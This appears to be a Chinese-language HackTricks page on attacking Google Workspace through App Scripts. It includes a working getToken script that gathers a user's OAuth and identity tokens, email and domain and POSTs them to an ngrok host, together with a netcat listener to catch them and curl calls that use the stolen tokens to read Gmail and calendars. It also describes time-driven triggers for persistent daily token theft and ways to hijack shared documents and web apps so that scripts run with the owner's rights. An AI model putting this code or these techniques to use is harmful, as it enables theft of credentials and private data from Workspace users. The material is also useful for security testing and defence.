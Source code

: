 # GWS - App Scripts

{{#include ../../../banners/hacktricks-training.md}}

## App Scripts

App Scripts 是 **当具有编辑权限的用户访问与 App Script 关联的文档时触发的代码**，并在 **接受 OAuth 提示后**。\
它们还可以由 App Script 的所有者设置为 **每隔一定时间执行**（持久性）。

### 创建 App Script

有几种方法可以创建 App Script，尽管最常见的方法是 **从 Google 文档（任何类型）** 和作为 **独立项目**：

<details>

<summary>从 Google Docs、Sheets 或 Slides 创建一个容器绑定项目</summary>

1. 打开一个 Docs 文档、一个 Sheets 电子表格或一个 Slides 演示文稿。
2. 点击 **扩展** > **Google Apps Script**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给你的项目命名并点击 **重命名**。

</details>

<details>

<summary>创建一个独立项目</summary>

要从 Apps Script 创建一个独立项目：

1. 访问 [`script.google.com`](https://script.google.com/)。
2. 点击添加 **新项目**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给你的项目命名并点击 **重命名**。

</details>

<details>

<summary>从 Google Drive 创建一个独立项目</summary>

1. 打开 [Google Drive](https://drive.google.com/)。
2. 点击 **新建** > **更多** > **Google Apps Script**。

</details>

<details>

<summary>从 Google Forms 创建一个容器绑定项目</summary>

1. 在 Google Forms 中打开一个表单。
2. 点击更多 more_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给你的项目命名并点击 **重命名**。

</details>

<details>

<summary>使用 clasp 命令行工具创建一个独立项目</summary>

`clasp` 是一个命令行工具，允许你从终端创建、拉取/推送和部署 Apps Script 项目。

有关更多详细信息，请参见 [使用 `clasp` 的命令行界面指南](https://developers.google.com/apps-script/guides/clasp)。

</details>

## App Script 场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 使用 App Script 创建 Google Sheet

首先创建一个 App Script，我对这个场景的建议是创建一个 Google Sheet 并转到 **`扩展 > App Scripts`**，这将为你打开一个 **与该表格链接的新 App Script**。

### 泄露令牌

为了提供对 OAuth 令牌的访问，你需要点击 **`服务 +` 并添加范围，例如**：

- **AdminDirectory**：访问目录的用户和组（如果用户具有足够的权限）
- **Gmail**：访问 Gmail 数据
- **Drive**：访问 Drive 数据
- **Google Sheets API**：以便与触发器一起工作

要自行更改 **所需的范围**，你可以转到项目设置并启用：**`在编辑器中显示 "appsscript.json" 清单文件`。
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail()
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
var oauthToken = ScriptApp.getOAuthToken()
var identityToken = ScriptApp.getIdentityToken()

// Data json
data = {
oauthToken: oauthToken,
identityToken: identityToken,
email: userEmail,
domain: domain,
}

// Send data
makePostRequest(data)

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = ""
page = AdminDirectory.Users.list({
domain: domain, // Use the extracted domain
orderBy: "givenName",
maxResults: 100,
pageToken: pageToken,
})

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10)

// To ask for drive permissions
var files = DriveApp.getFiles()
}

function makePostRequest(data) {
var url = "http://5.tcp.eu.ngrok.io:12027"

var options = {
method: "post",
contentType: "application/json",
payload: JSON.stringify(data),
}

try {
UrlFetchApp.fetch(url, options)
} catch (e) {
Logger.log("Error making POST request: " + e.toString())
}
}
```
要捕获请求，您只需运行：
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
请求执行应用脚本的权限：

<figure><img src="../../../images/image (334).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> 由于发出了外部请求，OAuth 提示也将**请求访问外部端点的权限**。

### 创建触发器

一旦读取了应用，点击**⏰ 触发器**以创建触发器。作为**函数**选择**`getToken`**，在部署中选择**`Head`**，在事件源中选择**`From spreadsheet`**，在事件类型中选择**`On open`**或**`On edit`**（根据您的需要）并保存。

请注意，如果您想调试某些内容，可以在执行选项卡中检查**应用脚本的运行情况**。

### 共享

为了**触发****应用脚本**，受害者需要以**编辑者访问**连接。

> [!TIP]
> 用于执行**应用脚本**的**令牌**将是**触发器创建者的令牌**，即使文件被其他用户以编辑者身份打开。

### 滥用与我共享的文档

> [!CAUTION]
> 如果有人**与您共享了一个包含应用脚本和使用应用脚本的 Head 的触发器的文档**，您可以修改应用脚本代码（例如添加窃取令牌的功能），访问它，并且**应用脚本将以与您共享文档的用户的权限执行**！ （请注意，所有者的 OAuth 令牌将具有在创建触发器时给予的访问范围）。
>
> **将向脚本的创建者发送通知，指示有人修改了脚本**（如何使用 Gmail 权限生成过滤器以防止警报？）

> [!TIP]
> 如果**攻击者修改了应用脚本的范围**，更新**不会应用**于文档，直到创建一个**带有更改的新触发器**。因此，攻击者将无法窃取比他在创建的触发器中设置的范围更多的所有者创建者令牌。

### 复制而不是共享

当您创建一个共享文档的链接时，会创建一个类似于以下的链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您**将**结尾的**"/edit"**更改为**"/copy"**，而不是访问它，谷歌会询问您是否想要**生成文档的副本：**

<figure><img src="../../../images/image (335).png" alt=""><figcaption></figcaption></figure>

如果用户复制并访问它，**文档的内容和应用脚本将被复制**，但是**触发器不会**，因此**不会执行任何操作**。

### 作为 Web 应用共享

请注意，**将应用脚本作为 Web 应用共享**也是可能的（在应用脚本的编辑器中，部署为 Web 应用），但会出现如下警报：

<figure><img src="../../../images/image (337).png" alt=""><figcaption></figcaption></figure>

随后是**典型的 OAuth 提示**，请求所需的权限。

### 测试

您可以测试收集到的令牌以列出电子邮件：
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
列出用户的日历：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script 作为持久性

一个持久性的选项是**创建一个文档并为 getToken 函数添加触发器**，并与攻击者共享该文档，这样每次攻击者打开文件时，他**就会提取受害者的令牌。**

还可以创建一个 App Script，并使其每 X 时间（如每分钟、每小时、每天）触发。一个**已获取受害者凭据或会话的攻击者可以设置一个 App Script 时间触发器，并每天泄露一个非常特权的 OAuth 令牌**：

只需创建一个 App Script，转到触发器，点击添加触发器，选择事件源为时间驱动，并选择最适合您的选项：

<figure><img src="../../../images/image (336).png" alt=""><figcaption></figcaption></figure>

> [!CAUTION]
> 这将创建一个安全警报电子邮件和一条推送消息到您的手机，提醒您有关此事。

### 共享文档未验证提示绕过

此外，如果有人**与您共享**了一个**编辑访问权限**的文档，您可以在文档中生成**App Scripts**，而**文档的所有者（创建者）将是 App Script 的所有者**。

> [!WARNING]
> 这意味着，**文档的创建者将显示为任何具有编辑访问权限的人在其中创建的任何 App Script 的创建者**。
>
> 这也意味着**App Script 将被文档创建者的 Workspace 环境信任**。

> [!CAUTION]
> 这也意味着如果**App Script 已经存在**并且人们已**授予访问权限**，那么任何具有**编辑**权限的人都可以**修改它并滥用该访问权限。**\
> 要滥用这一点，您还需要人们触发 App Script。而一个巧妙的技巧是**将脚本发布为网络应用**。当**已经授予**App Script 访问权限的人访问网页时，他们将**触发 App Script**（这也可以使用 `<img>` 标签实现）。

{{#include ../../../banners/hacktricks-training.md}}
